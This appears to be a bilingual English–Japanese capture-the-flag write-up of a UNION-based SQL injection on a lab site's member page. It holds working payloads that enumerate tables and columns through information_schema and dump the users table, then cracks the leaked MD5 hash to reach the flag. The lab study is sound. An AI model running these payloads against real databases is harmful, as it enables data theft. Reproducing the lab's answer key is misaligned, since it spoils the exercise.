

# SQL injection in member page
#SELECT TABLE_NAME FROM information_schema.tables


## check how many columns
```
1 OR 1=1 UNION SELECT NULL, NULL
```
This command is used to find out the number of columns necessary to perform a UNION with the original query. The condition 1 OR 1=1 always evaluates to true, thus selecting all records by default.
To match the column count, increment the number of NULLs until a match is found. In this case, it's determined that there are 2 columns.

オリジナルのクエリとUNIONするために必要なカラム数を見つけ出すコマンド。
1 OR 1=1は常に真となる条件を作り出し、結果としてすべてのレコードを選択する。
column数が一致するまでNULLを増やしていけばいいが、ここではcolumnが2つであることがわかる 


## get the table name of DB 
```
1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables
```
Obtains the names of all tables within the database. information_schema.tables is a special table that stores metadata about the database, including all table names.
Note: The first column = Table Name, the second column = NULL is used solely for matching purposes.

データベース内のすべてのテーブル名を取得する。
information_schema.tablesは、データベースのメタデータを格納する特別なテーブルで、すべてのテーブル名を含む
NB: 第一カラム = テーブル名 , 第二カラム = 一致させるためだけにNULLを使用


## get the column infomation of table
```
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
Retrieves the column names and their associated table names for a specific table (in this case, targeting the ```users``` table). information_schema.columns is a table that contains information about all columns within the database.
This allows identifying which columns can be utilized for an attack.

特定のテーブル（この場合は```users```テーブルがターゲット）のカラム名とそのテーブル名を取得。information_schema.columnsは、データベース内のすべてのカラムに関する情報を持つテーブル。
これにより、どのカラムが攻撃に利用できるかを特定可能


## get the data of users table
```
1 OR 1=1 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
By using the CONCAT() function, multiple columns are merged into a single string, enabling the attacker to obtain information of interest in one go.
This query extracts specific data from the user table, providing valuable information to the attacker.

CONCAT()関数を使って、複数のカラムを一つの文字列として結合し、usersテーブルの情報を一度に取得できるようにする。
このクエリは、ユーザーテーブルから特定のデータを抜き出し、攻撃者にとって有益な情報を提供する。


``` 
ID: 1 OR 1=1 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
First name: 5
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

So we try to decript ``` 5ff9d0165b4f92b14994e5c685cdce28  ``` with MD5
 https://www.dcode.fr/md5-hash


https://md5decrypt.net/


then, do lower all char and encode ``` fortytwo``` with sha256


### flag = ```10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 ```


# What is UNION Attack ? 
A UNION attack is a type of SQL Injection where an attacker combines the results of two different SQL queries into a single query result.
It can be used to illicitly extract information from a database. To conduct an attack, it's necessary to identify the correct number of queries.

UNION攻撃は、SQLインジェクションの一種で、攻撃者が異なるSQLクエリの結果を結合して一つのクエリ結果として返す方法。元のクエリの結果に追加の結果を結合させることにより行われます。元のクエリの結果に追加の結果を結合させることにより行われる。
### つまり、攻撃者は元々のクエリに自分が知りたい情報を取得するための別のクエリを追加し、その結果を盗み出すことができる。
データベースから不正に情報を抽出するために使うことができる。攻撃を行うためには、正しいクエリ数を特定することが必要。